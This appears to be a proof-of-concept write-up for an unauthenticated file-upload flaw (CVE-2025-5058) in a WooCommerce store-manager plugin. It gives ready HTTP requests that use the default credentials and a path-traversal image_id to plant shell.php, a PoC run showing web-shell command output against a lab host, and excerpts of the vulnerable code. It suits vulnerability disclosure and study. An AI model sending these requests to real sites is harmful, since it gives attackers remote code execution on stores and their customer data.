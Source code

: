 # eMagicOne Store Manager for WooCommerce <= 1.2.5 - Unauthenticated Arbitrary File Upload via set_image Task

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file uploads to the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and upload arbitrary files (including PHP shells) to the WordPress root or any writable directory via the `set_image` task.



## Reproduction
* A POC [CVE-2025-5058.py](./CVE-2025-5058.py) is provided to demonstrate an attacker uploading a web shell named `shell.php`.

```console
python CVE-2025-5058.py https://lab1.hacker      

[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"03877e9c7c21be0a8022d0d9397bb5c4d153a7cd51d2ddc2c398465160747f24"}
[+] Got session key: 03877e9c7c21be0a8022d0d9397bb5c4d153a7cd51d2ddc2c398465160747f24
[*] Uploading file via set_image...
[*] Upload response: <br />
<b>Warning</b>:  Trying to access array offset on false in <b>/home/vagrant/research/Lab1/wp-content/plugins/store-manager-connector/classes/class-emosmcwoocommerceoverrider.php</b> on line <b>324</b><br />
<br />
<b>Warning</b>:  Trying to access array offset on false in <b>/home/vagrant/research/Lab1/wp-content/plugins/store-manager-connector/classes/class-emosmcwoocommerceoverrider.php</b> on line <b>325</b><br />
{"response_code":"19","message":"Unable to resize one or more of your pictures"}
[*] Executing Web Shell Commands...
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 82708sec preferred_lft 82708sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 85990sec preferred_lft 13990sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:0a:f0:30:8c brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage

The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' + self::TABLE_SESSION_KEYS
        + "` (`session_key`, `date_added`, `last_activity`) VALUES ('" + $this->shop_cart->p_sql( $key ) + "', '"
        + $date + "', '" + $date + "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```


### Arbitrary File Upload
With a valid session key, an attacker can upload a file using the `set_image` task, abusing the parameters to write arbitrary files:

```http
POST /?connector=bridge
Content-Type: multipart/form-data

task=set_image&entity_type=product&image_id=../../shell.php&key=<session_key>
file=@shell.php;type=text/plain
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~2115+):

```php
private function set_image() {
    // ... parameter checks ...
    if ( ! $this->shop_cart->set_image( $entity_type, $image_id, self::UPLOAD_FILE_NAME, $type ) ) {
        $this->generate_error( $this->br_errors['upload_image_error'] );
    }
}
```

`classes/class-emosmcwoocommerceoverrider.php` (lines ~272+):

```php
public function set_image( $entity_type, $image_id, $img, $type ) {
    // ...
    $destination_path = $this->get_shop_root_dir() . "$entity_type/$image_id";
    // ...
    $result = move_uploaded_file( $tmp_name, $destination_path );
    // ...
}
```

**Result:** The file is written to the WordPress root (or any specified directory, via path traversal in image_id). 